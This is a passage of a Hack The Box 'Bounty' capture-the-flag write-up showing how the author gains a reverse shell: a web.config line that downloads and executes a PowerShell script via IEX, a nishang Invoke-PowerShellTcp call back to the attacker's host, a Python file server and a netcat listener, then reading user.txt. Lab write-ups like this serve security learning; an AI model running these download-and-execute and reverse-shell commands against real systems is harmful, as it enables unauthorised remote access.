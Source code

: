 Yeah!! It works. Time to pop a reverese shell. I will be using powershell for this. Tried using different paylods, the implementation from [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) worked. Added a line to invoke the shell at the end.

```cmd
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 4242
```


Need to make some changes to the web.config file.

```bash

Set cmd1 = wShell1.Exec("cmd /c powershell IEX (New-Object Net.WebClient).downloadstring('http://10.10.14.2:8000/reverse.ps1')")

```
This will allow me to download the reverse shell as a string and then execute it.
```bash

┌──(kali㉿kali)-[~]
└─$ curl -v http://10.10.10.93/uploadedfiles/web.config
*   Trying 10.10.10.93:80...
* Connected to 10.10.10.93 (10.10.10.93) port 80 (#0)
> GET /uploadedfiles/web.config HTTP/1.1
> Host: 10.10.10.93
> User-Agent: curl/7.72.0
> Accept: */*
> 

┌──(kali㉿kali)-[~/HackTheBox/Bounty/exploit]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.93 - - [27/Mar/2021 23:47:46] "GET /reverse.ps1 HTTP/1.1" 200 -
```

```cmd

┌──(kali㉿kali)-[~/HackTheBox/Bounty/exploit]
└─$ nc -nvlp 4242   
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.93] 49168
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>cd C:\Users\merlin\Desktop
PS C:\Users\merlin\Desktop> type user.txt

```
Owned user, Moving on to Root.

## PrivEsc

Let's get the system info and check it with the windows-exploit-suggester.
